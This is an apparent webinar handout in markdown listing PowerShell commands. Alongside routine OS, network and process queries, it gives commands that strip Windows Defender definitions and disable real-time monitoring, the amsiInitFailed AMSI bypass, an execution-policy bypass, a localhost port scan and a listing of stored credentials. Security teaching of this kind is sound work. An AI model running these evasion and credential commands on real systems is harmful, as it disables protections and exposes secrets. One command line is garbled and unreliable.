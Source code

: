 # PowerShell Commands for Webinar

## 1. Disable Windows Defender Realtime Monitoring
This command disables Windows Defender's real-time monitoring.

powershell
& "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
Set-MpPreference -DisableRealtimeMonitoring $true


---

## 2. Get Detailed OS Information
This command retrieves all properties of the operating system.

powershell
Get-WmiObject -Class Win32_OperatingSystem | Select-Object -Property *


---

## 3. Network Interface Information
This command retrieves network interface configuration, including IPv4 and IPv6 addresses.

powershell
Get-NetIPConfiguration | Select-Object -Property InterfaceAlias, IPv4Address, IPv6Address, DNServer


---

## 4. List Processes by CPU Usage
This command retrieves running processes and sorts them by CPU usage in descending order.

powershell
Get-Process | Select-Object -Property ProcessName, Id, CPU | Sort-Object -Property CPU -Descending


---

## 5. Port Scanning (1-1024)
This command performs a basic port scan on localhost for ports 1 to 1024.

powershell
1..1024 | ForEach-Object { $sock = New-Object System.Net.Sockets.TcpClient; $async = $sock.BeginConnect('localhost', $_, $null, $null); $wait = $async.AsyncWaitHandle.WaitOne(100, $false); if($sock.Connected) { $_ }; $sock.Close() }


---

## 6. Disable AMSI (Antimalware Scan Interface)
This command disables AMSI by manipulating internal PowerShell structures.

powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed', 'NonPublic, Static').SetValue($null, $true)


---

## 7. Bypass Execution Policy Temporarily
This command temporarily bypasses the execution policy for running scripts and then reverts it.

powershell
$policy = Get-ExecutionPolicy; Set-ExecutionPolicy -ExecutionPolicyBypass -Scope Process;
# Scriptofyourchoice; 
Set-ExecutionPolicy -ExecutionPolicy $policy -Scope Process


---

## 8. List Stored Credentials
This command lists all stored credentials.

powershell
cmdkey/list

